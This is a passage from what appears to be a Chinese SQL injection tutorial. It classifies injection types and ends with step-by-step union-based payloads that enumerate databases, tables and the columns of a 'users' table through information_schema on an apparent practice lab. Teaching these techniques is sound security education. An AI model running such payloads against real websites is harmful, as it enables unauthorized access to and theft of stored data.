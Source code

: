 字符型注入 
搜索型注入
**按照注入技术（执行效果）分类**
基于布尔的盲注
基于时间的盲注 
基于报错的注入 
联合查询注入 
堆查询注入
### 2.6.1 数字型（整型）注入
输入的参数为整数，如ID、年龄、页码等，如果存在注入型漏洞，则为数字型（整型） 注入 `http://www.testweb.com/user.php?id=8`
实际查询代码原型诸如：`select ... from ... where id=$id ...`
**数字型注入测试方法**
![17](https://img-blog.csdnimg.cn/64830e3dc2a849f89a2837a986da32f2.png#pic_center)
### 2.6.2 字符型注入
输入的参数为字符串
与数字型注入的区别在于：字符型注入一般要使用**单引号**来闭合 `http://www.testweb.com/test.php?user=admin`
实际查询代码原型诸如：`select ... from ... where id='$id' ...`
**字符型注入测试方法**
![18](https://img-blog.csdnimg.cn/db15f5456b504ee9b18e36e2276eba9b.png#pic_center)
### 2.6.3 搜索型注入
这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有`keyword=关键字`，有的不显示链接地址，而是直接通过搜索框表单提交。
此类注入点提交的SQL语句，其原型大致为：
`select * from 表名 where 字段 like '% 关键字 ％' `
当我们提交注入参数为`keyword='and［查询条件］and '%'='`
则向数据库提交的SQL语句为：
`select * from 表名 where 字段 like '%' and ［查询条件］and '%'='%'`

>基于`布尔`的盲注
>即可以根据返回页面判断条件真假的注入。
>基于`时间`的盲注
>即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
>基于报错的注入
>即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。 
>联合查询注入
>可以使用union的情况下的注入。
>堆查询注入
>同时执行多条语句的注入

### 2.6.4 联合查询
①闭合sql语句，使其返回正常
`id = 1' and 1=1%23`
②order by排序查询列数`id = 1' order by 3%23`得知有三列数据
③union select查找输出位置
令联合查询前半部分输出为空, 使得后半部分输出`id=-1' union select 1,2,'3`得知2, 3位置上有输出
![19](https://img-blog.csdnimg.cn/48fe484bf9e041b88d8d0bc2377c0e81.png#pic_center)
④查库名
`id = -1' union select 1 ,2,group_concat(schema_name) from information_schema.schemata%23`
![20](https://img-blog.csdnimg.cn/09f2d213d404484c95fa53f0a69b7757.png#pic_center)
⑤查security库的表名
`?id = -1' union select 1,2,group_concat(table_name) 
from information_schema.tables
where table_schema='security'%23`
![21](https://img-blog.csdnimg.cn/840aba4df7c24b09a6be63dc430d0bf3.png#pic_center)
⑥查users表的列名
`?id=-1' union select 1,2,group_concat(column_name) 
from information_schema.columns where 
table_schema='security' and table_name='users'%23`
![22](https://img-blog.csdnimg.cn/ee5ee9d2a5f645aa97b3d1e6a6cba623.png#pic_center)